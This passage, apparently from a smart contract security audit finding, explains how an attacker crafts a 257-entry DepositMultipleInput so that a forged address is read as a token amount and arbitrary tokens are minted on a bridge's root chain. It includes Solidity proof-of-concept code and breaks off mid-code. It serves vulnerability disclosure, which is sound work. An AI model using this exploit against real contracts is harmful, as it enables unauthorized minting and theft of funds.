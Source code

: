 ### Supplying the attack vector

The attacker will construct such `DepositMultipleInput _dParams` where `address[] hTokens` will have a length of 257 where all entries, except `hTokens[1], hTokens[2] & hTokens[3]` , will contain the Branch address of the same `hToken` (note that in the examined functions above there is no restriction to supply the same `hToken` address multiple times). 

In a similar way `address[] tokens` will have length of 257, however, here all entries will contain the underlying `token` (it is crucial to include the address of the underlying `token` to bypass `_normalizeDecimals`).  

Next `uint256[] amounts` will be of length 257 where all entries will contain 0. Similarly 

`uint256[] deposits` will be of length 257 where all entries will contain 0. In such configuration the attacker is able to supply a malicious `hToken` address as per weakness `#3`.

The crucial part now is that `hTokens[1]` will contain the address of the underlying `token` - this is needed to later bypass the params check on the RootChain.

`hTokens[2] & hTokens[3]` will contain the attacker’s malicious payload address that when converted to bytes and then `uint256` will represent the arbitrary amount of tokens that the attacker will mint (this conversion will happen on the RootChain).

This is how the attack vector looks expressed in code.

```solidity
				// hToken address, note the "h" in the var name
        address addr1 = avaxMockAssethToken;

        // underlying address
        address addr2 = address(avaxMockAssetToken);

        // 0x2FAF0800 when packed to bytes and then cast to uint256 = 800000000
				// this amount will be minted on Root 
        address malicious_address = address(0x2FAF0800);
        
        uint256 amount1 = 0;
        uint256 amount2 = 0;

        uint num = 257;
        address[] memory htokens = new address[](num);
        address[] memory tokens = new address[](num);
        uint256[] memory amounts = new uint256[](num);
        uint256[] memory deposits = new uint256[](num);

        for(uint i=0; i<num; i++) {
            htokens[i] = addr1;
            tokens[i] = addr2;
            amounts[i] = amount1;
            deposits[i] = amount2;
        }
    
        // address of the underlying token
        htokens[1] = addr2;
      
        // copy of entry containing the arbitrary number of tokens
        htokens[2] = malicious_address;
        
        // entry containing the arbitrary number of tokens -> this one will be actually fed to mint on Root
        htokens[3] = malicious_address;
       
        uint24 toChain = rootChainId;

        // create input
        DepositMultipleInput memory input = DepositMultipleInput({
            hTokens:htokens,
```